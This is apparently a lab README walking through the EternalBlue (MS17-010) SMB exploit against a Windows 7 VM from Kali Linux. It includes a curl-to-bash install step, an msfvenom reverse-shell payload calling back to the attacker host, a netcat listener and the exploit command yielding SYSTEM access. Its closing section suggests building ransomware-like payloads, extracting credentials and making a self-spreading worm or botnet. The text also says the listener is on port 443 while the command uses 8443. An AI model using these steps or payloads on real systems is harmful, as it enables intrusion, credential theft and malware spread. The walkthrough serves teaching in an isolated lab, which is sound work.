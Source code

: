 # EternalBlue

- Built on: Environment: Kali Linux and Vulnerable Windows 7(64bit) VMs (2020.09)

## Preparation

On Linux: `curl -fsSL https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.sh | bash`

On Windows: Merge https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.reg

## Steps

1. On Windows (`target.example.com`), share a folder (it doesn't matter which folder is shared. We only need to start the file sharing server software)
2. On Linux (`kali.example.com`), prepare a payload and name it `ms17-010.exe`. If you don't have something ready, try the reverse shell and create it with command: `msfvenom -p windows/shell_reverse_tcp LHOST=kali.example.com LPORT=8443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`
3. If you're going with the reverse shell approach, listen on port 443 on Linux in another terminal window: `nc -nlvp 8443`
4. We omit the step to probe the victim and identify the vulnerabilities since we know about it, and directly run the attacking script: `python send_and_execute.py target.example.com ms17-010.exe`
5. Now your payload is running on the victim machine under `NT AUTHORITY\SYSTEM` privilege. We omit the step to verify that. If you're going with the reverse shell approach, You should get an inbound connection on your netcat server listening on port 8443, providing you with a shell (cmd). Every command you enter is executed on the victim machine.

## Exploration

- Inspect the Python scripts and related docs (protocol spec) and try to understand them, including how the smb protocol (Windows file sharing service) and server work, what the flaw is, how it is exploited, and how to fix it, etc.
- Design your own payload (like the ransomware in the news events, but you're not limited to ransomwares and can do anything on the victim. The guide in the reference proceeds with extracting login credentials from the system manually in the reverse shell).
- Think about implementing an exploit inside the payload, and the ability to probe other hosts reachable over the network, attack them and spread itself. This can be used to create a computer worm and/or botnet (discussed elsewhere).

## Reference

- [Exploiting MS17-010 without Metasploit (Win XP SP3)](https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/) 
